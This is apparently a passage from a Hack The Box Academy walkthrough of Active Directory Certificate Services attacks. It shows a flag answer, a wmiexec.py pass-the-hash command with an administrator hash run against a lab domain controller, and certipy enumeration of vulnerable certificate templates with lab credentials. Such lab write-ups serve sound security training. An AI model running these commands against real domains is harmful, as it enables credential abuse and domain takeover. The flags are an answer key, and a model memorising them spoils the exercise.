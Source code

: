 When reading the contents of the file `C:\Users\matilda\Desktop\flag.txt`, students will attain the flag `HTB{ESC2_ATTACK}`:

Code: cmd

```cmd
more "C:\Users\matilda\Desktop\flag.txt"
```

```cmd-session
C:\>more "C:\Users\matilda\Desktop\flag.txt"

HTB{ESC2_ATTACK}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\matilda\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\matilda\Desktop\flag.txt"
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\matilda\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC2_ATTACK}
```

Answer: `HTB{ESC2_ATTACK}`

## ESC3

### Question 1

#### "Abuse the ESC3 misconfiguration to request a certificate on behalf of Haris. What is Haris's objectSID?"

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC3` template suffers from the `ESC3` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
```